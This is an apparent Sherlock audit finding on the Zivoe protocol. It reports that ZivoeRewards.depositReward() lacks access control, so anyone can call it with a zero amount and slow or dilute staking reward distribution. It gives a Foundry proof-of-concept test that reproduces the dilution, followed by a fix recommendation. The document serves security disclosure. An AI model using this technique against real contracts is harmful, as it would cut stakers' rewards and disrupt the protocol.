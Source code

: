 Clumsy Cobalt Lion

high

# Arbitrary address can dilute the staking rewards because of missing access control

## Summary
Anyone can call [ZivoeRewards.depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) and [ZivoeRewardsVesting.depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352-L367) with `amount = 0` to dilute the `rewardRate`.

## Vulnerability Detail
Both functions lack access controls. When called with `amount = 0` before the finish period of the rewards distribution, the execution will enter the following block
```solidity
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
```
Since `reward = 0`, the `leftover` will be divided by the whole `rewardsDistribution`. Suppose the contract holds 3000 DAI in rewrads that have to been distributed for 30 days (rewardRate = 100 / 86400). When 15 days pass, the claimable amount must be 1500 DAI. An attacker can now call `depositReward(DAI, 0)` and the rewardRate will be set to `leftover / 30 days`. The leftover is half the original amount, i.e 1500 DAI. So we have `1500 / 30 days = 50 / 86400`. When another 15 days pass, the total claimable amount will be 2200 DAI instead of 3000 DAI. For the rest of the rewrads to be claimed, another 15 days have to pass. An attacker can keep doing this over and over again for even smaller time intervals. This will make the distribution process extremely slow.
## Impact
Dilution of staking rewards; making the whole process extremely slow

## Code Snippet
A PoC for the above scenario. Put the test in [Test_ZivoeRewards.sol](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol) and import `console`.
```solidity
    function test_reward_dilution() public {
        uint256 deposit = 3000 ether;

        depositReward_DAI(address(stZVE), deposit);

        (
            uint256 rewardsDuration,,,,
        ) = stZVE.rewardData(DAI);

        assertEq(rewardsDuration, 30 days); 

        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));

        hevm.warp(block.timestamp + rewardsDuration / 2);
        uint256 earned = stZVE.earned(address(sam), DAI);
        console.log('Earned: ', earned); // We skiped 15 days, so the earned amount is around 1500 

        vm.prank(address(0x01));
        stZVE.depositReward(DAI, 0);

        hevm.warp(block.timestamp + rewardsDuration / 2); 
        earned = stZVE.earned(address(sam), DAI);
        console.log('Earned: ', earned); // After another 15 days the earned rewards must be around 3000, however they are ~2200 because of the depositRewards() call.
    }
```

## Tool used
Foundry

## Recommendation
Add access control to the function